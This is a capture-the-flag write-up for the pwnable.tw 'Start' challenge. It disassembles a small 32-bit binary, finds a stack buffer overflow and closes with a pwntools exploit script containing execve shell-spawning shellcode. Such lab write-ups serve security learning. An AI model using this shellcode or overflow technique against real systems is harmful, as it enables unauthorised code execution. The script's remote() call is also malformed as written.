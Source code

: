 # Writeup for the first challenge on Pwnable.tw: Start

## Examine

Let's look at the challenge first.

![The challenge](https://media.discordapp.net/attachments/1001097982957068298/1017971596805283854/unknown.png)

Just that. No hint.

But this's the first one so it should be easy anyway, let's dig deep into.

Connect to the nc server and we have:

![netcat](https://media.discordapp.net/attachments/1001097982957068298/1017973004078166037/unknown.png)

It waits for our input, try to put some text, and the connection just close, nothing happened. The **file** command used on the downloaded binary file gives us some information:

![file](https://media.discordapp.net/attachments/1001097982957068298/1017974220078194708/unknown.png)

Cool. 32-bit so we should use IDA 32 instead of 64.

Open it on IDA and there are only 2 functions: _start and _exit.

The _start function:

![_start](https://media.discordapp.net/attachments/1001097982957068298/1017987415325016164/unknown.png)

Understanding the code in each group in order/ reverse order:
- Push esp, _exit onto the stack, use **XOR** to clean up registers.
- Push the string: `'Let's start the CTF:'` onto the stack. In another word, the $esp register holds the string at this step.
- _0x08048087_ - _0x0804808f_: When you see the `int 0x80`, before it should be a syscall. In this case, al register (8 bits version of eax) is set to 4, so the function wants to call sys_write here. 

`ssize_t write(int fd, const void *buf, size_t count);`

`write() writes up to count bytes from the buffer starting at buf to the file referred to by the file descriptor fd.`

_write(2) — Linux manual page_

The fd, in this case, is set to 1 (mov bl,1), which means it wants the program to print the output to STDOUT instead of file(s).

```assembly
mov bl, 0x14
```
Size of the string it wants to print.

```assembly
mov ecx, esp
```
ECX will hold "Let's start the CTF:" from now on and parse to write() as `const void *buf`

- _0x08048091_ - _0x08048097_: This time, the al is set to 3, which means it wants to call sys_read.

```c
ssize_t read(int fd, void *buf, size_t count);
```

`read() attempts to read up to count bytes from file descriptor fd into the buffer starting at buf.`

_read(2) - Linux manual page_

```assembly
XOR ebx, ebx
```
Clean up the register.

```assembly
mov dl, 0x3C
```
Read 60 bytes from STDINT.

- And the problem happen at _0x08048099_ - _0x0804809c_

```assembly
add esp, 0x14
retn
```

But the `sys_read` allow us to write 60 bytes into the stack, this's where the [Buffer Overflow](https://en.wikipedia.org/wiki/Buffer_overflow) happens.

## Exploit

We have confirmed this binary has [Buffer Overflow](https://en.wikipedia.org/wiki/Buffer_overflow) vulnerability. Our input from buf[20] will overwrite the Instruction Pointer (EIP).

> EIP is a register in x86 architectures (32bit). It holds the "Extended Instruction Pointer" for the stack. In other words, it tells the computer where to go next to execute the next command and controls the flow of a program.

To make sure, we open the binary in pwn-dbg and type 24 characters "A" to the input (the last 4 "A" to overwrite $EIP).

And we get:

![BOF](https://media.discordapp.net/attachments/1001097982957068298/1018049372749037608/unknown.png)

So we successfully overwrite EIP. And if we continue to execute the program, it will jump to _0x41414141_ (ASCII character of "A"), which is an invalid address.

------------------------------------------------------------------------------------------------------------------------------------------------------------------

And now the exploit will be:

- Overwrite the $EIP to _0x08048087_ to call sys_write one more time to write _0x14_ bytes on the stack. And the first 4 bytes will be the address of $ESP. Next, it will execute the sys_read one more time, the same as the previous one, allowing us to input the second payload.
- The second payload will overwrite $EIP's address with the leaked $ESP address + _0x14_ + [shellcode](http://shell-storm.org/shellcode/) to give us a shell.

About learning to write shellcode, visit [here](https://www.vividmachines.com/shellcode/shellcode.html#:~:text=In%20computer%20security%2C%20shellcoding%20in,to%20accomplish%20a%20desired%20task.).

**Exploit.py** (using Pwntools)

```python
from pwn import *
r = remote('nc chall.pwnable.tw, '10000')
r.recvuntil(':')
garbage = b'A'*0x14
payload = garbage + p32(0x8048087)
r.send(payload)
leak_esp = u32(r.recv()[:4])
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload2 = garbage + p32(leak_esp+0x14) + shellcode
r.sendline(payload2)
r.interactive()
```

Run the exploit, and we win.

![getflag](https://media.discordapp.net/attachments/1001097982957068298/1018086283702186074/unknown.png)
